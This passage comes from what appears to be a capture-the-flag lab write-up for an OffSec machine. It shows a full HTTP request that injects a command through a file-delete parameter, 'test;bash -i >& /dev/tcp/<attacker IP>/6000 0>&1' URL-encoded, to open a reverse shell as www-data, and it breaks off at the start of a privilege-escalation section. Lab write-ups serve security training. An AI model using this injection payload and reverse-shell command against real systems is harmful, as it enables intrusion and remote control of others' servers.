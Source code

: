 This machine seems to only accept connections using port 6000, which is probably we need to use for our reverse shell. Now that we know what port to use, the only thing left is to abuse the RCE via the Delete File function.

Here's the request I sent:

{% code overflow="wrap" %}
```http
POST /submissions/ HTTP/1.1
Host: internal-phobos.phobos.offsec
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://internal-phobos.phobos.offsec/submissions/
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://internal-phobos.phobos.offsec
Connection: close
Cookie: csrftoken=NlmEzR5xYFoRJN4RQFBwld9qX8kEVc9rXi0cClWyw1DblPbtblfBxDbw5xpa1XPL; sessionid=43b8z6j9ik360k1wm6vpc718rem1bsb3
Upgrade-Insecure-Requests: 1



csrfmiddlewaretoken=lUZv7MQQ8VaNbnkvd8DgAbLB0WIT1V3CvRD3agHRGhp7Npr7yOhlMBNH8lNp7GJW&file=test%3bbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.164%2F6000%200%3E%261&action=delete
```
{% endcode %}

This wold give us a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (70) (2).png" alt=""><figcaption></figcaption></figure>

The user flag is within the `/var/www` directory.&#x20;

## Privilege Escalation

### MongoDB Creds --> Root

We can enumerate the ports that are listening on the host since `nmap` only picked up on HTTP port 80.
